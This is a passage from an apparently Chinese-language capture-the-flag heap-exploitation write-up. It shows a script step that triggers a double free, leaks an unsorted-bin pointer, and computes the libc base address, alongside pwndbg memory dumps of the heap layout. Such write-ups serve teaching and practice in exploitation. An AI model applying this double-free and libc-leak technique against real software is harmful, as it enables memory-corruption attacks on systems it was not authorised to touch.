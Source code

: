 ```
0x11de940:      0x3434343434343434      0x3434343434343434
0x11de950:      0x3434343434343434      0x0034343434343434
0x11de960:      0x0000000000000090      0x0000000000000071
0x11de970:      0x6161616161616161      0x6161616161616161
```

**STEP3** 触发double free：

```
delete(2)                #           unsortbin: chunk2 <-> chunk0 <-> main_area<->
add(0x80, '5' * 0x80)    # 2=chunk0  unsortbin: chunk2 <-> main_area <->
show()
p.recvuntil('0. ')
libc.address = u64(p.recv(6) + '\0\0') - 0x3c4b78
```

这里再申请了节点是为了让chunk2能指向main_area，然后通过读取0节点即chunk2内存即可获得main_area地址，成功leak libc。其中偏移0x3c4b78可以通过`xinfo <address>`命令取得。

内存布局如下：

```
pwndbg> x/gx 0x6020a0
0x6020a0 <list>:        0x00000000011dd010
pwndbg> x/20gx 0x11dd010
0x11dd010:      0x0000000000000100      0x0000000000000004
0x11dd020:      0x0000000000000001      0x0000000000000080
0x11dd030:      0x00000000011de8e0      0x0000000000000001
0x11dd040:      0x0000000000000010      0x00000000011de8c0
0x11dd050:      0x0000000000000001      0x0000000000000080
0x11dd060:      0x00000000011de830      0x0000000000000001
0x11dd070:      0x0000000000000068      0x00000000011de970
0x11dd080:      0x0000000000000001      0x0000000000000068
0x11dd090:      0x00000000011de9e0      0x0000000000000000
0x11dd0a0:      0x0000000000000000      0x0000000000000000
pwndbg> x/44gx 0x11de830-0x10
0x11de820:      0x0000000000000000      0x0000000000000091
0x11de830:      0x3535353535353535      0x3535353535353535
0x11de840:      0x3535353535353535      0x3535353535353535
0x11de850:      0x3535353535353535      0x3535353535353535
0x11de860:      0x3535353535353535      0x3535353535353535
0x11de870:      0x3535353535353535      0x3535353535353535
0x11de880:      0x3535353535353535      0x3535353535353535
0x11de890:      0x3535353535353535      0x3535353535353535
0x11de8a0:      0x3535353535353535      0x0035353535353535
0x11de8b0:      0x0000000000000090      0x0000000000000021
0x11de8c0:      0x3131313131313131      0x0031313131313131
0x11de8d0:      0x0000000000000000      0x0000000000000091
0x11de8e0:      0x00007fe8f1108b78      0x00007fe8f1108b78
0x11de8f0:      0x3434343434343434      0x3434343434343434
0x11de900:      0x3434343434343434      0x3434343434343434
0x11de910:      0x3434343434343434      0x3434343434343434
0x11de920:      0x3434343434343434      0x3434343434343434
0x11de930:      0x3434343434343434      0x3434343434343434
0x11de940:      0x3434343434343434      0x3434343434343434
0x11de950:      0x3434343434343434      0x0034343434343434
0x11de960:      0x0000000000000090      0x0000000000000070
0x11de970:      0x6161616161616161      0x6161616161616161
```
